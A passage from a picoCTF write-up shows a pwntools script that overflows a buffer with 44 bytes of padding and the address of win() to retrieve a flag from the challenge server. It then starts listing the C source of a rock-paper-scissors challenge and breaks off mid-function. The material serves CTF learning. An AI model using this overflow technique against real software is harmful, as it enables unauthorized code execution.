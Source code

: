 We need to subtract 4 bytes to reach this value. The address of `win()` can be found with `pwntools`.

```python
from pwn import *

context.log_level = 'critical'

r = remote('saturn.picoctf.net', 58135)

e = ELF('./vuln')

r.sendline(b'A'*44 + p32(e.sym.win))

r.recvuntil(b'pico')

print(f'\nFlag --> pico{r.recv().decode()}\n')
```

```bash
➜  Binary-Exploitation git:(main) ✗ python solver.py

Flag --> picoCTF{XXX}
```

### RPS

Download the file and `cat` its content.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <time.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>


#define WAIT 60



static const char* flag = "[REDACTED]";

char* hands[3] = {"rock", "paper", "scissors"};
char* loses[3] = {"paper", "scissors", "rock"};
int wins = 0;



int tgetinput(char *input, unsigned int l)
{
    fd_set          input_set;
    struct timeval  timeout;
    int             ready_for_reading = 0;
    int             read_bytes = 0;
    
    if( l <= 0 )
    {
      printf("'l' for tgetinput must be greater than 0\n");
      return -2;
    }
    
    
```